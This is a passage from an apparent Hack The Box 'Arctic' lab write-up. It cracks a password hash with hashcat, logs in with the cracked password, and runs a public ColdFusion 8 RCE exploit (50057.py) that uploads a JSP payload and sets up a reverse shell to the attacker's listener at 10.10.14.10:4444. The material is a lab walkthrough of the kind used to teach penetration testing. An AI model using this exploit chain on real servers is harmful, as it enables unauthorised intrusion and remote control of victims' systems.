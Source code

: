 ```bash
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   181.1 kH/s (0.06ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 54%

Started: Tue Jan 21 12:16:55 2025
Stopped: Tue Jan 21 12:17:15 2025
```

I cracked the hash with `hashcat`, and the cracked password is `happyday`
I used this password on the login page, and it worked!

With this, I can spawn a reverse shell.
This approach is further explained in [0xdf blog](https://0xdf.gitlab.io/2020/05/19/htb-arctic.html).

### RCE exploiting `ColdFusion 8`

Given the version, I found out that there's an RCE exploit : `50057.py`
I copied the code, and modified IP variables.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat 50057.py              

<SNIP>

if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.10'
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
    filename = uuid.uuid4().hex

<SNIP>
```

Then, let's run the exploit.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 50057.py 

Generating a payload...
Payload size: 1497 bytes
Saved as: b1f9ace5db1b46329ca89ed2ed507675.jsp

Priting request...
Content-type: multipart/form-data; boundary=c550bed65885400ca0ddcf3c0a78d5fc
Content-length: 1698

<SNIP>

Printing some information for debugging...
lhost: 10.10.14.10
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: b1f9ace5db1b46329ca89ed2ed507675.jsp
```